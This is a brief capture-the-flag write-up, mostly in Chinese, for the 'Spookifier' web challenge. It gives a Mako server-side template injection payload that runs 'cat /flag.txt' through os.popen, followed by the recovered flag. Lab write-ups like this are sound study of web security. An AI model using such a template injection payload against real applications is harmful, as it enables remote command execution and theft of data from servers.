


# Spookifier

:::note CHALLENGE DESCRIPTION

Difficulty: VERY EASY

There's a new trend of an application that generates a spooky name for you. Users of that application later discovered that their real names were also magically changed, causing havoc in their life. Could you help bring down this application?

近日，一款应用程序掀起了一股新潮流，它能为你生成一个诡异的名字。然而，使用该程序的用户随后发现，他们的真实姓名竟也神奇地被更改，给生活带来了诸多混乱。你能帮忙终结这款应用程序的恶作剧吗？

:::

尝试直接访问


分析一下题目提供的源码



尝试打SSTI

```plaintext
${self.module.cache.util.os.popen('cat /flag.txt').read()}
```



```flag
HTB{t3mpl4t3_1nj3ct10n_C4n_3x1st5_4nywh343!!}
```
